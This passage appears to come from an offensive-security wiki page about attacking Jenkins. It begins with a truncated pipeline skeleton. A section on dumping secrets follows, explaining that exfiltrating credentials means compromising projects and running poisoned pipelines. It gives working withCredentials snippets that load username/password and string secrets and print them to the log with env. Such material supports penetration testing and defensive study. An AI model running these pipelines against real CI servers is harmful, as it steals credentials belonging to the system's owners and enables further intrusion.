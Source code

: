 ```bash
pipeline {
    agent {label 'built-in'}
    environment {
        GENERIC_ENV_VAR = "Test pipeline ENV variables."
    }

    stages {
        stage("Build") {
                environment {
                    STAGE_ENV_VAR = "Test stage ENV variables."
                }
                steps {
```

### Dumping secrets

For information about how are secrets usually treated by Jenkins check out the basic information:

{{#ref}}
basic-jenkins-information.md
{{#endref}}

Credentials can be **scoped to global providers** (`/credentials/`) or to **specific projects** (`/job/<project-name>/configure`). Therefore, in order to exfiltrate all of them you need to **compromise at least all the projects** that contains secrets and execute custom/poisoned pipelines.

There is another problem, in order to get a **secret inside the env** of a pipeline you need to **know the name and type of the secret**. For example, you try lo **load** a **`usernamePassword`** **secret** as a **`string`** **secret** you will get this **error**:

```
ERROR: Credentials 'flag2' is of type 'Username with password' where 'org.jenkinsci.plugins.plaincredentials.StringCredentials' was expected
```

Here you have the way to load some common secret types:

```bash
withCredentials([usernamePassword(credentialsId: 'flag2', usernameVariable: 'USERNAME', passwordVariable: 'PASS')]) {
    sh '''
        env #Search for USERNAME and PASS
    '''
}

withCredentials([string(credentialsId: 'flag1', variable: 'SECRET')]) {
    sh '''
        env #Search for SECRET
    '''
}

withCredentials([usernameColonPassword(credentialsId: 'mylogin', variable: 'USERPASS')]) {
    sh '''
        env # Search for USERPASS
    '''
}

# You can also load multiple env variables at once
withCredentials([usernamePassword(credentialsId: 'amazon', usernameVariable: 'USERNAME', passwordVariable: 'PASSWORD'),
                 string(credentialsId: 'slack-url',variable: 'SLACK_URL'),]) {
     sh '''
        env
    '''
}
```
